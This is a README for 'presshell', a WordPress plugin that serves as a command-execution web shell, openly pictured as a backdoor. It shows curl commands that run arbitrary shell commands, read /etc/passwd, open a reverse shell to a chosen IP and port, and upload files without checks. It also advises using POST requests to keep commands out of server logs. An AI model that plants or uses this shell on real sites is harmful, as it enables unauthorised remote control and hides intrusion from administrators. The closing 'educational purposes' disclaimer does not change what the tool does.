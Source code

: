 <p align='center'>
   <img src='.assets/backdoor.png' alt='' width='256' />
</p>

<h2 align='center'>presshell</h2>

<p align='center'><i>Quick & dirty Wordpress Command Execution Shell.</i></p>

Execute shell  commands on  your wordpress  server. Uploaded  shell will
probably be at `<your-host>/wp-content/plugins/shell/shell.php`

### Installation

To install the shell, we are  assuming you have administrative rights to
Wordpress and can  install plugins since transferring a PHP  file to the
media  library  shouldn't work  anyway.  Otherwise,  you have  a  bigger
problem.

Simply upload  the zip  file located  in the Releases  section as  a new
extension and you're good to go.

### Usage

Using  the shell  is straightforward.  Simply pass  `sh` commands  as an
argument to the shell :

```sh
❯ curl 'http://host/.../shell.php?cmd=uname+-a'
Linux wordpress-server 2.6.32-21-generic-pae #32-Ubuntu SMP Fri Apr 16 09:39:35 UTC 2010 i686 GNU/Linux
```

You may  as well pass  these arguments in a  POST request, which  is the
recommended way to keep your commands out of logs.

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=ls'
LICENSE
README.md
shell.php
```

More complex  commands are  also supported,  careful about  your quoting
though.

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=cat /etc/passwd | grep -v "\(false\|nologin\)"'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
```

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=python -c "from urllib.parse import urlencode; print(urlencode({\"cmd\": \"uname -a\"}))"'
cmd=uname+-a
```

You can also open a reverse  shell using the `ip` and `port` parameters.
The default port is `443`.

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'ip=127.0.0.1'
```

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'ip=127.0.0.1' --data-urlencode 'port=1337'
```

There is also an option provided for convenience to upload a file to the
directory of the plugin *unconditionally and without checks*.

```sh
❯ curl 'http://host/.../shell.php' -F 'file=@some_file'
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=ls'
LICENSE
README.md
shell.php
some_file
```

### Disclaimer

Running unathorized attacks to public or private servers is illegal. The
content  of this  repository is  for  educational purposes  only and  no
responsibility will be  taken by the authors  in case of ill  use of the
provided material.
